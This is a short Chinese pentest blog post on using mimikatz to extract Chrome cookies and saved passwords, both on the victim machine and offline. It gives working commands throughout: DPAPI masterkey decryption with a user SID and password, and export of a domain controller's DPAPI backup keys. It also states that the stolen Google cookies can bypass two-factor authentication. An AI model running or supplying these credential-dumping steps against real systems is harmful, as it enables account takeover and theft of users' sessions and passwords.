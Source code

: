 ```yaml
---
title: 用mimikatz获取chrome的用户数据
date: 2019-07-07 15:45:29
tags: pentest
---
```



### 1.在线获取

必须要登录到用户的计算机上

导出`cookies`

`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\cookies"`

![cookies](/img/onlinecookies.png)

导出登录凭证
`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\login data" /unprotect`

### 2.离线获取

有几点要求，需要知道目标的SID和密码，或者有域的根密钥

如果没有正确的masterkey，解密的时候会出现错误，如果有足够的权限，也可以使用mimikatz的`sekurlsa::dpapi`命令来获取masterkey，当然我们要离线的话，就不能把mimikatz上传到服务器

![decerror](/img/decrypterror.png)

SID和masterkey在用户的`%appdata%`目录下

![sidkey](/img/sidandmasterkey.png)

使用SID配合密码导入masterkey，然后对cookies进行解密，这样解出来的masterkey是默认导入了mimikatz的缓存里，解密时候不需要指定masterkey
`dpapi::masterkey /in:"1853c496-c182-49eb-aa4e-79a24e9bd90c" /SID:S-1-5-21-2104814972-2348396718-1065983387-1653 /password:YourPassword /unprotect`

![masterkey](/img/masterkey.png)

`dpapi::chrome /in:"cookies"`
![decryptcookie](/img/decryptcookie.png)

获得了chrome中保存的cookie，只要用户在登录google的时候，选择了记住该设备，那么可以利用解密出来的cookie进行登录，绕过google的双因素验证


使用mimikatz导出的backupkey来进行解密，导出的4个文件中最重要的为.pvk文件
`lsadump::backupkeys /export /system:dc.computer.com`

![backupkeys](/img/backupkeys.png)

使用.pvk文件进行解密masterkey，并解出cookies
![pvk1](/img/pvkdec.png)


![pvk2](/img/pvkcookies.png)


### 参考文章

https://ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++



